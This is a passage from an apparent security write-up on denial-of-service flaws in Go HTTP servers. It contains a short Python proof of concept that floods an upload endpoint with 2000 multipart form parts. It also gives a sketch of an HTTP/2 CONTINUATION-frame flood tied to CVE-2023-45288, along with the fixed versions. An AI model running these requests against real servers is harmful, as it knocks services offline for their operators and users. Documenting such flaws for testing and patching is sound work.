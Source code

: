     ```python
    import requests
    
    url = "http://vulnerable-go-server.com/upload"
    files = {}
    # Create a large number of small parts
    # Pre-fix, no hard limit; post-fix, default is 1000 parts.
    # A PoC would send significantly more than a typical request,
    # aiming to hit resource limits or trigger inefficient processing.
    for i in range(2000): # Example: 2000 parts
        files[f'field{i}'] = (None, f'value{i}')
    
    try:
        response = requests.post(url, files=files, timeout=10) # Timeout to avoid client hanging
        print(f"Status Code: {response.status_code}")
    except requests.exceptions.RequestException as e:
        print(f"Request failed: {e}")
    
    ```
    
    ( describe the vulnerability.)
    
- **Expected Outcome:** The Go server consumes excessive CPU and/or memory while attempting to parse the numerous form parts, potentially becoming unresponsive or crashing.

**3. Denial of Service via HTTP/2 CONTINUATION Flood (related to CVE-2023-45288):**

- **Setup:** A Go HTTP/2 server running a version vulnerable to CVE-2023-45288 (pre Go 1.21.9/1.22.2 or `x/net/http2` < 0.23.0).
- **Attack Request (Conceptual using an HTTP/2 client library):**
An attacker would use an HTTP/2 client to send a HEADERS frame for a request, followed by an extremely large number of CONTINUATION frames. Each CONTINUATION frame would add to the header block being processed by the server.

    ```bash
    Stream 1: HEADERS
              :method = POST
              :scheme = https
              :path = /some_path
              host = target.example.com
              content-type = application/json
              header1 = value1_very_long_huffman_encoded...
    Stream 1: CONTINUATION
              header2 = value2_very_long_huffman_encoded...
    Stream 1: CONTINUATION
              header3 = value3_very_long_huffman_encoded...
    ```

